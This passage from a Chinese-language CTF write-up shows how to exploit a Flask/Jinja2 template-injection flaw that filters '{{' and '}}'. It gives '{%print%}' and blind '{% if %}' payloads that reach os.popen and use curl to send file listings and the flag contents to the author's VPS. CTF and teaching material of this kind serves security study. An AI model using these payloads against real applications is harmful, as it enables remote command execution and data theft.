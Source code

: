 [![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174724-35381530-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174724-35381530-bd3e-1.png)

经测试目标存在SSTI漏洞，但是过滤了 `{{` 和 `}}`，我们可以使用 `{%print(......)%}` 的形式来绕过。

{%print(''.\_\_class\_\_)%}

但是执行后却没有任何回显了，所以我们还得换一条路子。这里我们使用 `{% if ... %}1{% endif %}` 配合 `os.popen` 和 `curl` 外带数据的方法。

首先在自己vps上面开启监听：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174724-3575b44e-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174724-3575b44e-bd3e-1.png)

然后执行如下payload在根目录里面寻找flag：

{% if ''.\_\_class\_\_.\_\_mro\_\_\[2\].\_\_subclasses\_\_()\[59\].\_\_init\_\_.func_globals.linecache.os.popen('curl http://47.xxx.xxx.72:2333 -d \`ls /|grep flag\`') %}1{% endif %}

如下图所示，发现flag文件：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174725-35ba9c3a-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174725-35ba9c3a-bd3e-1.png)

执行如下payload读取flag：

{% if ''.\_\_class\_\_.\_\_mro\_\_\[2\].\_\_subclasses\_\_()\[59\].\_\_init\_\_.func_globals.linecache.os.popen('curl http://47.xxx.xxx.72:2333 -d \`cat /flag\_1s\_Hera\`') %}1{% endif %}

读取成功：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174725-36059136-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174725-36059136-bd3e-1.png)

未完待续……
------

> 参考：
> 
> [https://evi0s.com/2018/11/26/深入SSTI-从NCTF2018两道Flask看bypass新姿势](https://evi0s.com/2018/11/26/%E6%B7%B1%E5%85%A5ssti-%E4%BB%8Enctf2018%E4%B8%A4%E9%81%93flask%E7%9C%8Bbypass%E6%96%B0%E5%A7%BF%E5%8A%BF/)
> 
> [https://misakikata.github.io/2020/04/python-沙箱逃逸与SSTI](https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/#SSTI)
> 
> [https://www.gem-love.com/ctf/2598.html](https://www.gem-love.com/ctf/2598.html)
